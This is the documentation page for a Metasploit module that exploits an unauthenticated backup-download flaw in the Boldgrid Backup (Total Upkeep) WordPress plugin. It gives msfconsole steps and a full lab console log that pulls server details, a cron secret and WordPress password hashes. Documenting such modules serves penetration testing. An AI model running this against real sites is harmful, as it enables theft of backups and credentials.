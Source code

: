 ## Vulnerable Application

This module exploits an unauthenticated database backup vulnerability in WordPress plugin
'Boldgrid-Backup' also known as 'Total Upkeep' version < 1.14.10.

Exploitation happens in a few steps:

1. First, `env-info.php` is read to get server information.
1. Next, `restore-info.json` is read to retrieve the last backup file.
1. That backup is then downloaded, and any sql files will be parsed looking for the `wp_users` `INSERT` statement to grab user creds.

A vulnerable version can be downloaded from here:
[Boldgrid Backup (Total Upkeep)](https://downloads.wordpress.org/plugin/boldgrid-backup.1.14.9.zip)

A free account will need to be registered at Boldgrid's site, and a serial key generated and applied.
Once the key is applied, click "Backup Site Now", or create a backup through other mechanisms in the
interface.

## Verification Steps

1. Install the plugin and create a backup
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_total_upkeep_downloader`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get an archive backup.

## Options

## Scenarios

### Boldgrid-Backup (Total Upkeep) 1.14.9 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (total_upkeep.rb)> use auxiliary/scanner/http/wp_total_upkeep_downloader
resource (total_upkeep.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (total_upkeep.rb)> run
[+] 1.1.1.1 - Vulnerable version of Boldgrid Backup detected
[*] 1.1.1.1 - Obtaining Server Info
[+] 1.1.1.1 -
  gateway_interface: CGI/1.1
  http_host: 1.1.1.1
  php_sapi_name: apache2handler
  php_uname: Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
  php_version: 7.4.3
  server_addr: 1.1.1.1
  server_name: 1.1.1.1
  server_protocol: HTTP/1.1
  server_software: Apache/2.4.41 (Ubuntu)
  uid: 33
  username: www-data
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._165408.txt
[*] 1.1.1.1 - Obtaining Backup List from Cron
200
[+] 1.1.1.1 -
  ABSPATH: /var/www/wordpress/
  archive_key: 0
  cron_secret: ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd
  filepath: /var/www/wordpress/wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
  siteurl: http://1.1.1.1
  site_title: localhost
  restore_cmd: php -d register_argc_argv="1" -qf "/var/www/wordpress/wp-content/plugins/boldgrid-backup/boldgrid-backup-cron.php" mode=restore siteurl=http%3A%2F%2F1.1.1.1 id=ec5c393c secret=ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd archive_key=0 archive_filename=boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip site_title=localhost
  timestamp: 1609362824
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._983176.txt
[*] 1.1.1.1 attempting download of wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
[+] 1.1.1.1 - Database backup (22372663 bytes) saved in: /home/h00die/.msf4/loot/20201230163042_default_1.1.1.1_boldgridbackup._100789.zip
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test001.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test002.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test005.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test006.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test008.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test009.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test010.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test011.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test012.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wordpress_db.20201230-211322.sql
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] 1.1.1.1 - finished processing backup zip
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_total_upkeep_downloader) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      1.1.1.1           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      1.1.1.1           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      1.1.1.1           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
